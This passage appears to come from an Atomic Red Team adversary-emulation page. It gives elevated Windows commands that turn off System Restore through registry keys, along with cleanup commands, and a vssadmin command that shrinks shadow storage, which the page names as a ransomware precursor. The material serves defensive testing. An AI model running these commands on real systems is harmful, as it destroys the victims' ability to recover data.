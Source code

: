 **auto_generated_guid:** 66e647d1-8741-4e43-b7c1-334760c2047f






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableConfig" /t "REG_DWORD" /d "1" /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableSR" /t "REG_DWORD" /d "1" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableConfig" /t "REG_DWORD" /d "1" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableSR" /t "REG_DWORD" /d "1" /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableConfig" /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableSR" /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableConfig" /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableSR" /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #10 - Windows - vssadmin Resize Shadowstorage Volume
Adversaries generally try to Resize Shadowstorage Volume using vssadmin.exe to avoid the shadow volumes being made again. This technique is typically found used by adversaries during a ransomware event and a precursor to deleting the shadowstorage.

**Supported Platforms:** Windows


**auto_generated_guid:** da558b07-69ae-41b9-b9d4-4d98154a7049






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
vssadmin resize shadowstorage /For=C: /On=C: /MaxSize=20%
```






<br/>
